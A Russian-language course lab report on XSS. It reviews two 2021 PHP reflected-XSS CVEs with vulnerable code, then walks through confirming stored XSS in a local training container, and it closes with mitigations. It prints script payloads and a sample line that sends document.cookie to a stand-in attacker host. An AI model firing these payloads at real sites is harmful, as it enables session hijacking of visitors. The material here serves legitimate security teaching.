

Часть I

На NVD и stack.watch нашел статистику CVE за 2021 год и XSS в PHP-компонентах

По данным stack.watch за 2021 год опубликовано 21 115 CVE. Это рекорд на тот момент, на ~16% больше чем в 2020 (18 150). Вывод простой: даже XSS встречается в этом списке десятками раз - разработчики продолжают наступать на одни и те же грабли

Первая CVE - CVE-2021-43698 в библиотеке phpWhois. Это PHP-библиотека для WHOIS-запросов: дергает WHOIS-серверы по доменам, IP, AS, парсит сырой ответ в структурированный массив (даты регистрации, контакты, NS, статус домена), кеширует результаты. Используется в админках хостеров, сервисах проверки доменов и мониторинге истечения регистрации.

Сама уязвимость живет в example.php - демонстрационный файл, который многие копируют в продакшн как есть. Параметр $_GET['query'] улетает в exit() без htmlspecialchars

```
exit("Error processing query: " . $_GET['query']);
```

Payload:
```
http://victim/phpwhois/example.php?query=<script>alert(document.cookie)</script>
```

Тип - Reflected XSS.

Вторая CVE - CVE-2021-47912 в PHP Melody 3.0. Это коммерческая Video CMS, через неё делают фейк YouTube: загрузка видео и импорт с YouTube/Vimeo/Dailymotion, регистрация юзеров, каналы, подписки, категории, теги, плейлисты, поиск, админка с модерацией и статистикой, монетизация

CVE-2021-47912 - несколько reflected XSS в categories.php, import.php, user_import.php. GET-параметры вставляются в HTML без санитизации

```
$category = $_GET['category'];
echo "<h1>Category: " . $category . "</h1>";
```

Из 21 115 CVE за 2021 год значительная доля - именно XSS в PHP-компонентах. Причина одна и та же: прямой вывод $_GET/$_POST в HTML без htmlspecialchars(), копирование уязвимого кода из example.php в продакшн, отсутствие auto-escape в шаблонах

Часть II

Для начала поднял контейнер командами из задания:
```
docker pull ket9/otus-devsecops-xss
docker run -d -p 8081:80 ket9/otus-devsecops-xss:latest
```

Зашел на http://localhost:8081/. На главной два пункта: XSS-1 и index.php. Открыл XSS-1 - там форма с одним textarea (name=comment) и кнопкой Save Data, POST на index.php. Под формой блок «Comments» - то место, куда падают отправленные комментарии

Сначала отправил обычный test123, чтобы понять что происходит
```
POST /XSS-1/index.php
comment=test123&submit=Save Data
```

В ответе:
```
<h2>Comments</h2><p>test123
```

Отправил еще одно сообщение - старый test123 остался на месте, новое добавилось ниже через <hr />. Значит комментарии сохраняются на сервере и показываются всем подряд. Это уже не reflected, это Stored XSS
Дальше проверил экранирование. Отправил <b>hello</b> - вернулся жирный hello, теги интерпретируются. Тогда в лоб классику
```
<script>alert("XSS")</script>
```

В исходнике страницы видно что вставка идет на сервере PHP echo-ом без htmlspecialchars

```
<h2>Comments</h2><p>test123
</p><hr />
<p>
<script>alert("XSS")</script>
</p><hr />
```

Открыл http://localhost:8081/XSS-1/ в браузере - выскочил alert("XSS"). JS выполнился в контексте страницы, уязвимость подтверждена



Чтобы показать что это не безобидно, дернул куки:
```
<script>alert(document.cookie)</script>
```
В реальной атаке alert заменяется на fetch('https://attacker/?c='+document.cookie) сессия любого, кто откроет страницу с комментариями, утечет атакующему.

Итог
Лаба показала классический пример Stored XSS: сервер берет $_POST['comment'] и через echo выкидывает его в HTML без экранирования. Любой посетитель страницы получает чужой JS в свой браузер - угон сессии, действия от имени жертвы, редирект на фишинг

- XSS
Суть: пользовательский ввод сохраняется на сервере и отдается всем посетителям как часть HTML. CWE-79, OWASP A03:2021 Injection. Самый опасный вариант XSS - жертве не нужно кликать по специальной ссылке, достаточно открыть страницу
как избежать:
    1)При выводе в HTML экранировать через htmlspecialchars($comment, ENT_QUOTES | ENT_HTML5, 'UTF-8'). В стенде стоит echo $comment - это и нужно заменить. Опасные символы которых хочу избегать: < > " ' & /  - все они должны превратиться в HTML-entity, чтобы не закрыть тег и не открыть атрибут.
    2)Не доверять addslashes - от XSS он не защищает
    3)Whitelist-валидация на входе (длина, разрешенный набор символов), blacklist обходится
    4)Подключить Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none' без unsafe-inline - даже при дыре в экранировании браузер не выполнит inline-скрипт
    5)Куки сессии с флагами HttpOnly; Secure; SameSite=Strict - HttpOnly закрывает доступ к куке из JS, и document.cookie ничего не вернет
    6)Использовать шаблонизаторы с auto-escape (Twig, Blade {{ $var }}) и не отключать его
    7)Статика: Semgrep / Psalm / PHPStan ловят сырые echo $_POST[...] на этапе CI
